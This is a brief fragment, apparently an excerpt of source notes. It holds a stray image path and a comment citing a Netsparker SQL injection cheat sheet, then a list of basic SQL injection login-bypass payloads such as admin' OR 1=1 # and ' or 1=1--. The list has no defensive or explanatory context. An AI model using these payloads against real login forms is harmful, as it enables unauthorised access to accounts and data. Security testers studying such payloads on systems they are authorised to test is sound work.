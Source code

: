     # https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
    # Basic sqli
    admin' OR 1=1 #
    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
 
